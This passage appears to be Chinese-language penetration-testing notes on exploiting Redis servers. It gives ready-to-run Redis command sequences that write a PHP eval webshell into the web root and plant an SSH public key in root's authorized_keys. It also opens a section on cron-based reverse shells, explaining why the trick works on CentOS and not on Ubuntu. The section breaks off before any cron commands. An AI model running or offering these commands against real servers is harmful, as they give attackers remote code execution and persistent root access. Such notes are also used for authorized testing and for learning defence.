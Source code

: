   redis默认有16个数据库

  ![image-20230920152903603](../../../images/image-20230920152903603.png)

  所以不用`flushall`来清空默认0号的数据库内容，只需要切换到其他的空数据库即可

  ```bash
  dbsize # 查看当前数据库的key数量
  select 4  # 选择没有数据的数据库
  ```

  

  

## 写入Webshell

- root权限执行的redis或者以某个web服务启动的redis
- 知道网站web路径

```bash
select 5
set 1 '\n\n<?php eval($_POST["cmd"]);?>\n\n'
config set dir /var/www/html
config set dbfilename shell.php
save
```



## 写入ssh公钥

- 高权限

![image-20231014092516237](../../../images/image-20231014092516237.png)

```bash
select 5
set 1 "\n\n公钥内容\n\n"
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```



## 写入计划任务反弹shell

- root权限

- Centos系统

  > 1. 因为默认redis写文件后是644的权限
  >
  >    **ubuntu**要求定时任务文件权限必须是**600**
  >
  >    **Centos**的定时任务文件权限**644**也能执行
  >
  > 2. 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错
